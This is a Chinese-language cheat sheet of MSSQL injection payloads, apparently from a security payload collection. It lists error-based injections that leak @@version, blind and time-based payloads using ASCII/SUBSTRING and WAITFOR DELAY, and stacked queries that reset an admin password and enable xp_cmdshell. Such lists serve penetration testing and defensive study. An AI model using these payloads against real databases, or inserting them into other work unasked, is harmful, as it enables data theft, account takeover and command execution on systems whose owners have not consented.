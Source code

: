 ## 基于错误的 MSSQL

```sql
对于整数输入 : convert(int,@@version)
对于整数输入 : cast((SELECT @@version) as int)

对于字符串输入   : ' + convert(int,@@version) + '
对于字符串输入   : ' + cast((SELECT @@version) as int) + '
```

## 基于盲注的 MSSQL

```sql
AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -

AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'

AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90

SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

## 基于时间的 MSSQL

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
```

## MSSQL 堆叠查询

* 不使用任何语句终止符

  ```sql
  -- 多个 SELECT 语句
  SELECT 'A'SELECT 'B'SELECT 'C'
  
  -- 使用堆叠查询更新密码
  SELECT id, username, password FROM users WHERE username = 'admin'exec('update[users]set[password]=''a''')--
  
  -- 使用堆叠查询启用 xp_cmdshell
  -- 您将无法获得查询的输出，将其重定向到文件 
  SELECT id, username, password FROM users WHERE username = 'admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
  ```
